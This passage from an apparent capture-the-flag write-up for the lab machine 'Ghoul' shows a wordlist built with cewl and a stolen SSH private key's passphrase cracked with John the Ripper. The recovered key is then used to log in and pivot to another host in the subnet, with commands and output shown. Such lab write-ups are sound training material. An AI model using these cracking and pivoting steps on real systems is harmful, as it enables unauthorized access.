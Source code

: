 

I'll play with running `cewl` on various pages Ghoul and see if it turns
out the password. The wordlist from `/secrets.php` works:



    root@kali# cewl http://10.10.10.101/secret.php -w secrets.wordlist
    CeWL 5.4.4.1 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/) 

    root@kali# /opt/john/run/john -wordlist=secrets.wordlist id_rsa_ghoul_kaneki.john 
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 3 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    ILoveTouka       (id_rsa_ghoul_kaneki)
    1g 0:00:00:00 DONE (2019-05-24 04:26) 100.0g/s 11000p/s 11000c/s 11000C/s made..moment
    Session completed



Perhaps Kaneki accidentally pasted his password into the chat:

![](/img/1558686439183.png)

### SSH to kaneki-pc

The password gives me access to the key, which I can use to ssh into
this container as kaneki:



    root@kali# ssh -i ~/id_rsa_ghoul_kaneki kaneki@10.10.10.101
    Enter passphrase for key '/root/id_rsa_ghoul_kaneki': 
    Last login: Sun Jan 20 12:33:33 2019 from 172.20.0.1
    kaneki@Aogiri:~$ 



I can also use the same key and password, along with the username
kaneki_pub (which I found in the `authorized_keys` file earlier), to ssh
to the .150 in the same subnet:



    root@Aogiri:/home/kaneki/.ssh# ssh -i id_rsa kaneki_pub@172.20.0.150
    Enter passphrase for key 'id_rsa': 
    Last login: Mon May 27 05:25:08 2019 from 172.20.0.10
    kaneki_pub@kaneki-pc:~$
